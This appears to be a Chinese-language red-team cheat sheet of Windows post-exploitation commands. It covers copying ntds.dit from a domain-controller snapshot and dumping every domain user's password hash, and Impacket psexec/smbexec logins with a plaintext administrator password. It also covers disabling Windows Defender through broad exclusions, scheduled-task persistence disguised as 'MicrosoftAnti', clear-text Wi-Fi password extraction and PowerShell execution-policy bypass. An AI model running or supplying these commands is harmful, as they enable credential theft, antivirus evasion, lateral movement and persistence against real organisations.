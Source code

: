 ### 取域内所有用户hash创建快照 

ntdsutil snapshot "activate instance ntds" create quit quit

挂载快照 ntdsutil snapshot "mount {5347834e-33bd-4c0a-a54e-13947650ae18}" quit quit

复制快照到本地 copy C:\$SNAP_202010141916_VOLUMEC$\windows\NTDS\ntds.dit d:\ntds.dit

卸载快照 ntdsutil snapshot "unmount {5347834e-33bd-4c0a-a54e-13947650ae18}" quit quit

删除快照 ntdsutil snapshot "delete {5347834e-33bd-4c0a-a54e-13947650ae18}" quit quit

获取key（用于解密） reg save HKLM\SYSTEM d:\Sys.hiv

使用NTDSDumpEx获取所有域用户的hashNTDSDumpEx.exe -d ntds.dit -o hash.txt -s Sys.hiv -h

### Impacket 工具包 https://github.com/SecureAuthCorp/impacket

.\smbexec.py ptsh/administrator:'2023PTSH!@#$'@172.20.0.15

.\psexec.py -codec gb2312 ptsh/administrator:'2023PTSH!@#$'@172.20.0.15

Defender检测扩展排除powershell.exe -command "Add-MpPreference -ExclusionExtension ".exe""

Defender检测进程排除powershell.exe -command "Add-MpPreference -ExclusionProcess "regsvr32""powershell.exe -command "Add-MpPreference -ExclusionProcess "regsvr32*""powershell.exe -command "Add-MpPreference -ExclusionProcess ".exe""powershell.exe -command "Add-MpPreference -ExclusionProcess "iexplorer.exe""powershell.exe -command "Add-MpPreference -ExclusionProcess "explorer.exe""powershell.exe -command "Add-MpPreference -ExclusionProcess ".dll""powershell.exe -command "Add-MpPreference -ExclusionProcess "*.dll""powershell.exe -command "Add-MpPreference -ExclusionProcess "*.exe""

定时任务

schtasks /create /sc minute /mo 1 /tn MicrosoftAnti /tr C:\Shoot.vbs 

schtasks /create /TN calc /TR d:\python\ccc.exe /SC DAILY /ST 09:31

schtasks /delete /TN calc /f 

Defender白名单powershell -Command Add-MpPreference -ExclusionPath XXXXXX

查看安装的软件 wmic product get name,version

powershell "Get-WmiObject -class win32_product | Select-Object -Property name,version" 

netsh wifi密码

for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr ‐i ‐v echo | netsh wlan show profiles %j key=clear 

PowerShell 可以直接写进内存，不会被杀软阻止可以在PowerShell中执行命令来查看和设置执行策略，如果需要执行Powershell脚本程序，需要使用管理员权限将Restricted改为Unrestricted。

Get-ExecutionPolicy 

Set-ExecutionPolicy Unrestricted

1 将脚本绕过本地权限并执行PowerShell命令

powershell.exe -ExecutionPolicy Bypass -File .\test1.ps1

powershell.exe -exec bypass -Command "& {Import-Module C:\Script\PowerUp.ps1;Invoke-AllChecks}"

